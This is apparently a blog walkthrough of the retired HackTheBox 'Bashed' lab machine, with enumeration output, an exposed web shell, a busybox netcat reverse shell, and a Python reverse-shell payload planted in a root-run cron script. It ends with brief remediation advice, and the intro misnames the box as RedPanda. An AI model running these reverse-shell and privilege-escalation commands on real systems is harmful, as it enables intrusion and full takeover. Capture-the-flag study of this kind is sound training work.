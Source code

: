 ```yaml
---
layout: post
date: 2023-05-16
title: "Bashed Walkthrough"
categories: [hackthebox]
tags: [hackthebox, linux, web, SUDO, Scheduled Job Abuse]
---
```


This is a walkthrough on how to complete the RedPanda box on Hackthebox.com. This box has been retired. The box is rated as **easy** difficulty. You can attempt the machine [here](https://app.hackthebox.com/machines/118) as well as view their write up on the box. 

Required Skills include: Web enumeration, Linux fundamentals.


I first started out with nmap scan as you must know what is open and what is closed. 

sudo nmap -Pn -n -v -sC -sV --open --min-rate=1000 -oA bashed BashedIP

```shell
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
|_http-title: Arrexel's Development Site
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

added bashed.htb to hosts file so I am able to access the page online.

![](/assets/images/Bashed/mainpage.jpg)

This links to another interesting page with more information relating to the exploit. 

![](/assets/images/Bashed/mainpage2.jpg)

This shows an example of a php file that is on the server, however I do not know that at this point in time. 

![](/assets/images/Bashed/githubpage.jpg)


https://github.com/Arrexel/phpbash


ran feroxbuster

```shell

feroxbuster -u http://bashed.htb/ -k --wordlist=/usr/share/wordlists/dirb/big.txt

```


```shell
404      GET        -l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      161l      397w     7743c http://bashed.htb/
404      GET        9l       34w      296c http://bashed.htb/Documents%20and%20Settings
404      GET        9l       33w      284c http://bashed.htb/contact%20us
301      GET        9l       28w      306c http://bashed.htb/css => http://bashed.htb/css/
301      GET        9l       28w      306c http://bashed.htb/dev => http://bashed.htb/dev/
404      GET        9l       33w      285c http://bashed.htb/donate%20cash
404      GET        9l       33w      288c http://bashed.htb/external%20files
301      GET        9l       28w      308c http://bashed.htb/fonts => http://bashed.htb/fonts/
404      GET        9l       33w      283c http://bashed.htb/home%20page
301      GET        9l       28w      309c http://bashed.htb/images => http://bashed.htb/images/
301      GET        9l       28w      305c http://bashed.htb/js => http://bashed.htb/js/
404      GET        9l       33w      284c http://bashed.htb/modern%20mom
301      GET        9l       28w      306c http://bashed.htb/php => http://bashed.htb/php/
404      GET        9l       33w      288c http://bashed.htb/press%20releases
403      GET       11l       32w      298c http://bashed.htb/server-status
404      GET        9l       33w      287c http://bashed.htb/style%20library
301      GET        9l       28w      310c http://bashed.htb/uploads => http://bashed.htb/uploads/
403      GET       11l       32w      302c http://bashed.htb/uploads/.htaccess
403      GET       11l       32w      302c http://bashed.htb/uploads/.htpasswd
404      GET        9l       34w      304c http://bashed.htb/uploads/Documents%20and%20Settings
404      GET        9l       33w      295c http://bashed.htb/uploads/Program%20Files
404      GET        9l       33w      292c http://bashed.htb/uploads/contact%20us
404      GET        9l       33w      293c http://bashed.htb/uploads/donate%20cash
404      GET        9l       33w      296c http://bashed.htb/uploads/external%20files
404      GET        9l       33w      291c http://bashed.htb/uploads/home%20page
404      GET        9l       33w      292c http://bashed.htb/uploads/modern%20mom
404      GET        9l       33w      292c http://bashed.htb/uploads/my%20project
404      GET        9l       34w      297c http://bashed.htb/uploads/neuf%20giga%20photo
404      GET        9l       33w      296c http://bashed.htb/uploads/press%20releases
404      GET        9l       33w      290c http://bashed.htb/uploads/site%20map
404      GET        9l       33w      295c http://bashed.htb/uploads/style%20library

```


going to this page provides us with a semi-shell which was shown above in the github repo. 

http://bashed.htb/dev/phpbash.php


![](/assets/images/Bashed/phpbash.jpg)


sudo -l

![](/assets/images/Bashed/phpbash2.jpg)

cd .. 

cd uploads/

wget http://10.10.14.7/simple-backdoor.php

http://bashed.htb/uploads/simple-backdoor.php

navigate to that page for further command execution to try and get a full shell.
	this did not work.

I saw that it was running busybox when I typed ls /bin

so I ran this command with my listener running 


```shell
busybox nc 10.10.14.7 4444 -e /bin/bash
```

```shell
nc -lvnp 4444
```


I now have a bad shell as user "www-data" so I  can upgrade with 


```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

This enables me to have lateral movement.


```shell
sudo -u scriptmanager /bin/bash
```


I am now the user "scriptmanager".


I attempt to run sudo -l where it asks for a password of which I do not have.



I then travel to /home and see another user. arrexel which I can read his files and thus got the user flag.

![](assets/images/Bashed/shell.jpg)



travelling to / shows me an interesting folder. /scripts which I travel to finding test.py and test.txt

![](/assets/images/Bashed/shell2.jpg)

seeing the files you can see test.py is owned by scriptmanager and test.txt is owned by root.

```python
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```


I read test.py which it creates the test.txt file and thus I can assume that the script is being automated as root. I can then change the file contents of test.py which I uploaded a bash rev shell into test.py

I got this reverse shell from https://revshells.com

```python
import os
import pty
import socket


s=socket.socket()
s.connect(("10.10.14.7",5555))
[os.dup2(s.fileno(),f)for f in(0,1,2)]
pty.spawn("/bin/bash")
```



This gave me a root shell.



![](/assets/images/Bashed/pwned.jpg)



You can secure the exploited vulnerability by first not having an interactive shell built into your webapp. Another step to take is to ensure that you do not have scripts running at elevated levels if unnecessary. To change this, you will need to change who is running the automated job. The permissions seemed to be fine on this machine.  





